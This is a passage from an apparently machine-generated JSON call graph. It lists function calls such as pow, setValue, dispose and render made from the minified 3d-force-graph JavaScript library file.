"static/js/3d-force-graph-1.73.4.min.js", "target": "freeze"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "freeze"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "freeze"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "freeze"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "freeze"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "now"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getId"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getId"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getId"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getId"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getAll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "every"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isPlaying"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "nextId"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_swapEndStartRepeatValues"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_setupProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "start"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_handleRelativeValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "reverse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_setupProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "stopChainedTweens"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_onStopCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "start"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_onStartCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_onEveryStartCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "trunc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_easingFunction"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_onUpdateCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_swapEndStartRepeatValues"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_onRepeatCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_onCompleteCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "start"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_interpolationFunction"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_updateProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getElementsByTagName"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "insertBefore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getContextAttributes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "init"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "preventDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "log"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "log"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "releaseProgram"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "releaseShaderCache"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getContextAttributes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "loseContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "restoreContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setViewport"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setViewport"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "viewport"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "scissor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setScissorTest"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getClearAlpha"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getClearColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getClearAlpha"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clearBufferuiv"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clearBufferiv"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setMask"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "determinant"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "resetTextureUnits"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setState"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getUniforms"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "useProgram"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setOptional"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setOptional"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "computeBoneTexture"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setOptional"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setOptional"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setOptional"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "refreshFogUniforms"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "refreshMaterialUniforms"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "upload"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "upload"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setMaterial"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setup"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setIndex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setLineWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setMode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setMode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setLineWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setMode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setMode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setMode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setMode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setMode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "renderMultiDrawInstances"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "renderMultiDraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getUniforms"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "render"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "renderInstances"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "renderInstances"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "render"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "init"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "traverseVisible"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pushLight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pushShadow"}, {"confidence": "EXTRACTED", "relation": "calls", 